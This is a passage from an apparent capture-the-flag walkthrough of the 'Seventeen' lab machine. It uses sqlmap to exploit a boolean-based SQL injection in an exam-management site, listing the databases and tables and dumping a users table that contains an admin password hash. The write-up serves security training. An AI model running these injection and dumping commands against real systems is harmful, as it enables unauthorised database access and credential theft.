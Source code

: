 It found the injection and I can now ask it questions.

### Access SFMS

#### DB Enumeration

I’ll list the DBs with `--dbs` (I’ll also add `--batch` to choose default answers to any prompts, and threads are safe because it’s boolean, not time-based):

```

oxdf@hacky$ sqlmap --dbs -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch --threads 10
...[snip]...
available databases [4]:
[*] db_sfms
[*] erms_db
[*] information_schema
[*] roundcubedb
...[snip]...

```

`information_schema` is the internal MySQL stuff. `roundcube` is a webmail service (which I haven’t seen yet). `erms_db` is likely the DB for Exam Management. I have no idea what `db_sfms` is.

#### erms\_db

I’ll start with `erms_db`. It has six tables:

```

oxdf@hacky$ sqlmap -D erms_db --tables -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch --threads 10
...[snip]...
Database: erms_db
[6 tables]
+---------------+
| category_list |
| exam_list     |
| option_list   |
| question_list |
| system_info   |
| users         |
+---------------+
...[snip]...

```

I’ll dump the `users` table:

```

oxdf@hacky$ sqlmap -D erms_db -T users --dump -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch --threads 10
...[snip]...
Database: erms_db
Table: users
[3 entries]
+----+------+-----------------------------------+----------+----------------------------------+------------------+--------------+---------------------+------------+---------------------+
| id | type | avatar                            | lastname | password                         | username         | firstname    | date_added          | last_login | date_updated        |
+----+------+-----------------------------------+----------+----------------------------------+------------------+--------------+---------------------+------------+---------------------+
| 1  | 1    | ../oldmanagement/files/avatar.png | Admin    | fc8ec7b43523e186a27f46957818391c | admin            | Adminstrator | 2021-01-20 14:02:37 | NULL       | 2022-02-24 22:00:15 |
```